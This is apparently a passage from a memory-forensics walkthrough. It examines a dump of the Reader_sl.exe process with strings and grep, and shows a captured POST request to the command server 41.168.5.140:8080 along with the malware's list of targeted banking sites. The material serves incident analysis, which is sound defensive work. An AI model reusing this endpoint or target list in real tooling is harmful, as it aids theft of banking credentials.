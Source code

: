 Dumps usually contains lots of information. In our scenario, we are looking for a relation between the piece of information already retrieved from the dump for example the opened tcp connection towards the 41.168.5.140 IP and this process with Pid 1640.

```bash
root@siftworkstation -> /h/s/D/cases
# strings 1640.dmp | grep -Fi "41.168.5.140" -C 7
 ABACFPFPENFDECFCEPFHFDEFFPFPACAB
 ABACFPFPENFDECFCEPFHFDEFFPFPACAB
 ABACFPFPENFDECFCEPFHFDEFFPFPACAB
DpI8
POST /zb/v_01_a/in/ HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)
Host: 41.168.5.140:8080
Content-Length: 229
Connection: Keep-Alive
Cache-Control: no-cache
>mtvR
`06!
a5p/
(>?c
```

In the above command, i have combined strings command with grep (_another command-line utility for searching plain-text data sets for lines that match a regular expression_) with the **-C flag** to get the previous and next lines, thus giving us more context for the information found.

So what's happening here? We can clearly see that the executable `Reader_sl.exe` is communicating towards the destination IP 41.168.5.140 using `POST` requests, potentially exfiltrating information from the victim’s computer. A basic explanation of `POST` requests explains that it is often used when uploading a file or when submitting a completed web form.

We can proceed to analyze the dump file further by running strings with the `less` option

```bash
root@siftworkstation -> /h/s/D/cases
# strings 1640.dmp | less

//redacted

*treasurypathways.com*
*CorporateAccounts*
*weblink.websterbank.com*
*secure7.onlineaccess1.com*
*trz.tranzact.org*
*onlineaccess1.com*
*secureport.texascapitalbank.com*
*/Authentication/zbf/k/*
*ebc_ebc1961*
*tdbank.com*
*online.ovcb.com*
*ebanking-services.com*
*schwab.com*
*billmelater.com*
*chase.com*
*bankofamerica.com*
*pnc.com*
*suntrust.com*
*wellsfargo.com*
*ibanking-services.com*
*bankonline.umpquabank.com*
*servlet/teller*
*nsbank.com*
*securentry.calbanktrust.com*
*securentry*
```
